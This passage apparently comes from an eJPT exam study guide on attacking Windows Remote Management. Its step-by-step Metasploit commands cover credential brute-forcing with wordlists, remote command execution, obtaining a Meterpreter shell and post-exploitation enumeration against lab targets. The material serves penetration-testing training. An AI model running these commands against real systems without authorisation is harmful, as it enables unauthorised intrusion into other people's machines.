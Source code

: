 #### **Level 2 - Very Likely (80% Chance):**
```bash
# Execute commands after finding credentials
use auxiliary/scanner/winrm/winrm_cmd
set USERNAME found_username
set PASSWORD found_password
set CMD whoami
exploit
# Expected: Command output showing current user

# Get meterpreter shell
use exploit/windows/winrm/winrm_script_exec
set USERNAME administrator
set PASSWORD tinkerbell
exploit
# Expected: Meterpreter session established
```

#### **Level 3 - Possible (60% Chance):**
```bash
# Advanced password attacks with wordlists
set USER_FILE /usr/share/metasploit-framework/data/wordlists/common_users.txt
set PASS_FILE /usr/share/metasploit-framework/data/wordlists/unix_passwords.txt
set VERBOSE false
# Expected: Automated credential testing

# Post-exploitation activities
meterpreter > getuid
meterpreter > sysinfo
meterpreter > ls
# Expected: System information and file listings
```

### **🎯 Common eJPT Exam Scenarios:**

#### **Scenario 1: Basic WinRM Discovery and Access**
**Given:** IP address of Windows target (192.168.1.100)
**Your Job:** Find WinRM service and test for weak credentials
**Time Limit:** 8-10 minutes

**Step-by-Step Approach:**
```bash
# Step 1: Scan for WinRM (2 minutes)
nmap -p 5985,5986 192.168.1.100
# Look for open ports

# Step 2: Check authentication methods (1 minute)
msfconsole -q
use auxiliary/scanner/winrm/winrm_auth_methods
set RHOSTS 192.168.1.100
exploit

# Step 3: Try common credentials (3 minutes)
use auxiliary/scanner/winrm/winrm_login
set RHOSTS 192.168.1.100
set USERNAME administrator
set PASSWORD admin
exploit
# Try: admin/admin, administrator/password, guest/guest

# Step 4: Test command execution (2 minutes)
use auxiliary/scanner/winrm/winrm_cmd
set USERNAME [found_username]
set PASSWORD [found_password]
```